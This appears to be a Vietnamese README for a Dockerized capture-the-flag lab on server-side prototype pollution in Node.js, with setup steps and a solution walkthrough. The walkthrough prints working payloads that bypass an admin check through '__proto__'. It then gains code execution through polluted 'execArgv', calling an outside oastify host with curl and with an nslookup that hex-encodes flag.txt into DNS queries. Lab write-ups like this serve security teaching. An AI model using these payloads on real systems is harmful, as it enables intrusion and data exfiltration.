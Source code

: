 # RESEARCH03


## Installation

Git clone repo
```
git clone https://github.com/brocked200/RESEARCH03.git
```

Di chuyển vào thư mục RESEARCH03
```
cd RESEARCH03
```

Build và chạy
```
sudo docker-compose up --build
```


## Usage

Sau khi build và chạy thành công, sẽ có thông báo hiển thị:
```
nodejs   | Server started on port 3000 
nodejs   | Connected to MySQL
```

![image](https://user-images.githubusercontent.com/52159161/228818947-820b6d6d-6490-4aeb-877e-cece22dc1fd6.png)

Truy cập vào localhost:3000 sẽ thấy giao diện web


## Bug

Nếu bị lỗi `Table 'ctf_prototypePollution.users' doesn't exist` khi chạy chương trình
>
Tạo cấu trúc database thủ công bằng command sau:
```bash
sudo docker exec -i mysql-nodejs mysql -uroot -p123123 ctf_prototypePollution < /home/khanh/Desktop/ctf_prototypePollution/db/init.sql 
```
Lưu ý: Thay đổi đường dẫn file sql `/home/khanh/Desktop/ctf_prototypePollution/db/init.sql `



# Đề CTF
## Ý tưởng
Sử dụng lỗ hổng Prototype Pollution trên server side để bypass phần kiểm tra admin trong chức năng thêm ghi chú. Sau đó thay đổi payload để tiến hành RCE để lấy flag.

## Cách giải
- Đầu tiên đăng ký tài khoản, sau đó login vào lab.
- Ban đầu sẽ không thể tạo ghi chú vì back-end sẽ kiểm tra quyền có phải là 'admin' không.
![image](https://user-images.githubusercontent.com/52159161/228821369-227de1c0-ef08-4593-a98f-b74b09c528a9.png)

- Chỉ được phép submit thuộc tính content, khi tiến hành thêm thuộc tính khác sẽ báo lỗi.
![image](https://user-images.githubusercontent.com/52159161/228822956-01b6e998-603b-4f6a-a605-b7d2a2b51910.png)

- Nhưng người chơi có thể bypass bằng cách sử dụng `__proto__` để tiến hành ô nhiễm prototype trên server.
Sẽ không còn thông báo lỗi "Chỉ được phép submit thuộc tính content"
![image](https://user-images.githubusercontent.com/52159161/228823203-a021d7c9-d692-4a73-80c0-2752816f6a75.png)

- Người chơi cần tìm đường dẫn source bị lộ trong robots.txt. Có đường dẫn khả nghi là `/s0uRcE`
![image](https://user-images.githubusercontent.com/52159161/228821652-47205b3c-53d9-41e9-84d5-fa49ebde172c.png)

- Sau khi truy cập vào `/s0uRcE`, thông tin về source của chức năng post notes sẽ được giấu trong trong phần ghi chú html
![image](https://user-images.githubusercontent.com/52159161/228821956-8374ef27-1753-4d7f-ac42-a301e9db7502.png)

- Từ đó người chơi sẽ biết được phần kiểm tra quyền admin là lấy thuộc tính role từ session.user.role so sánh giá trị role có phải là 'admin' hay không!
- Và xây dựng payload để ô nhiễm prototype role như sau:
```
"__proto__":{"session":{"user":{"role":"admin"}}}
```
Thành công bypass được phần kiểm tra quyền admin. Vì insert bị lỗi nên tiếp tục xem source code.
![image](https://user-images.githubusercontent.com/52159161/228823715-e2519702-b6ea-4837-8904-6ef60a19ca20.png)

- Sau khi đọc source code , người chơi sẽ thấy khi query insert ghi chú bị lỗi sẽ vào thực hiện code có gọi `execArgv` để thực hiện command gì đó.
![image](https://user-images.githubusercontent.com/52159161/228824432-82336614-72cb-4ac4-8050-1a536778bb5d.png)

- Và người chơi sẽ xây dụng được payload để thực hiện RCE out-of-band ra bên ngoài như sau:
```
"__proto__":{
"execArgv": [
"node -e \"require('child_process').execSync('curl https://1jlgxx6r7df3u8j4hocv3l2ygpmga6yv.oastify.com')\""
]
}
```
![image](https://user-images.githubusercontent.com/52159161/228824685-8d529bc3-95c3-46be-95f0-b7fffb000dbd.png)

- Nếu thành công sẽ có truy vấn tới burp collab
![image](https://user-images.githubusercontent.com/52159161/228825080-1dfd9a92-303e-4a9a-a8c7-a6986a6c1974.png)

- Vì cơ chế DNSSEC (Domain Name System Security Extensions) do đó khi truy vấn    do đó người chơi cần sử dụng command kèm theo đưa nó về hex sau đó cắt chuỗi nếu dài quá và gộp từng chuỗi lại. Đưa tất cả chuỗi đó về in thường và decode hex sẽ ra được flag. 
Command hint:
```
"__proto__": {
"execArgv": [
"node -e \"require('child_process').execSync('nslookup `cat flag.txt | xxd -p | tr -d '\n' | cut -c 1-60`.wzzftl7lgj1zmh6z0g5j7xxp5gb7z8nx.oastify.com')\""
]
}
```
Thay đổi cut -c thành 61-120 để tiến hành lấy đoạn hex còn thiếu.
